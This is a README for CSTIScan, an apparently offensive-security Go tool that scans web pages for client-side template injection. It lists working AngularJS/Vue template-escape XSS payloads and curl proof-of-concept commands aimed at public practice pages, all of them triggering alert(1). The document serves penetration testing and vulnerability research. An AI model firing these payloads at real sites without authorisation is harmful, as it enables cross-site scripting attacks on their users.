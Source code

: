 
![image (1)](https://github.com/user-attachments/assets/32f30552-0baf-436b-9e5f-b0cef7c0282a)


# 🕵️‍♂️ CSTIScan: Client-Side Template Injection (SISTEE) Scanner

CSTIScan is a powerful tool designed to identify and exploit potential Client-Side Template Injection (CSTI) vulnerabilities in web applications. CSTI occurs when user input is incorrectly handled and inserted into client-side templates, potentially leading to cross-site scripting (XSS) and other security issues.

## 🚀 Features

- 🔍 Automated scanning of single or multiple URLs
- 🧪 Tests various CSTI payloads
- 📊 Detailed vulnerability reporting
- 🛠️ Proof of Concept (PoC) generation
- 📈 Progress bar for multiple URL scans
- 🎨 Colorized console output

## 📦 Installation

1. Ensure you have Go installed on your system.
2. Clone this repository:

```
git clone https://gitlab.com/-/ide/project/sprocketsecurity/hackers/sistee
cd sistee
go mod init csti.go
go mod tidy
go build .
```


## 🔧 Usage

Public Firing Range: 

* AngularJS: [https://jsfiddle.net/2zs2yv7o/](https://jsfiddle.net/2zs2yv7o/)

* VueJS: [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)


### Help Menu

```
NAME:
   cstiscan - Scan for Client-Side Template Injection vulnerabilities

USAGE:
   cstiscan [global options] command [command options]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --url value, -u value   Single URL to test
   --file value, -f value  File containing URLs to test
   --poc                   Output PoC details (default: false)
   --proof                 Output proof of vulnerable code (default: false)
   --help, -h              show help
```

### Example Run - Provide Proof

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --proof
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
Proof:
Payload reflection: {{7*7}}
Payload reflection: <%= 7*7 %>
Payload reflection: {{constructor.constructor('alert(1)')()}}
Payload reflection: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
Payload reflection: {{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'}}
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Example Run - Provide PoC

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --poc
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
PoC:
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B7*7%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=${7*7}'
curl 'https://jsfiddle.net/2zs2yv7o/?test=<%= 7*7 %>'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7Bconstructor.constructor('alert(1)')()%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7BtoString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'%7D%7D'
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Single URL Scan
```
./cstiscan --url https://example.com
```

### Multiple URL Scan
```
./cstiscan --file urls.txt
```

### Include PoC Commands
```
./cstiscan --url https://example.com --poc
```

### Include Proof of Vulnerable Code
```
./cstiscan --url https://example.com --proof
```

## 🔬 Methodology

### 1. Automated Scanning
The tool performs the following steps:
- Fetches the target URL(s)
- Analyzes the HTML content for potential CSTI vectors
- Tests various CSTI payloads
- Generates a detailed report of findings

### 2. Manual Verification
For each potentially vulnerable URL:
1. Open the URL in a browser
2. Open the browser's developer console
3. Inject test payloads into user input fields or URL parameters
4. Check for unexpected behavior or script execution

### 3. CSTI Payload Testing
The tool tests various payloads, including:

```
{{77}}
${77}
<%= 7*7 %>
{{constructor.constructor('alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```

### 4. Identifying Vulnerable Templates
The scanner looks for patterns that might indicate template usage, such as:
- `{{ }}` (Mustache, Handlebars, AngularJS, Vue.js)
- `${ }` (ES6 template literals, some frameworks)
- `<%= %>` (EJS, Underscore.js)

## 📊 Results

- The tool outputs a table with vulnerable URLs, details, and optional PoC commands
- For manual testing, document:
  - The URL tested
  - The payload used
  - The observed behavior (e.g., unexpected script execution, template evaluation)
- Results are saved in JSON format for further analysis

## 💡 Tips & Tricks

1. **URL Parameter Testing**: Try injecting payloads via URL parameters:

```
https://target.com/page?param={{7*7}}
```

2. **Combine with XSS**: CSTI can often lead to XSS, test with alert functions:

```
{{constructor.constructor('alert("CSTI vulnerability")')()}}
```

3. **Check for Different Template Engines**: Different frameworks use different syntax, test various formats:

* `{{ }}` for Mustache, Handlebars, AngularJS, Vue.js
* `${ }` for ES6 template literals
* `<%= %>` for EJS, Underscore.js

4. **Prototype Pollution via CSTI**: Some payloads can lead to prototype pollution:

```
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```
